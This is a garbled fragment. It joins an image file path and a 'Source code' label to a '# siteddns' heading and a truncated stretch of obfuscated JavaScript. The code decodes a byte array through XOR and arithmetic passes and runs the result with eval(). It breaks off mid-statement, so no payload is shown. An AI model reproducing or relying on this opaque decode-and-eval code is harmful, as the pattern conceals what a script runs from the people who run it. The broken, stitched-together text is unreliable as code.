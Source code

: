  # siteddns
43)break;qb[sb]=(qb[sb]-qb[sb+1])&0xff;sb++;}sb="sb=44;do{qb[sb]=((qb[sb]-qb[sb-1])&0xff)^105;}while(--sb>=3);";eval(sb);for(sb=2;;){if(sb>43)break;qb[sb]=(qb[sb]+qb[sb+1])&0xff;sb++;}rb="";for(sb=1;sb
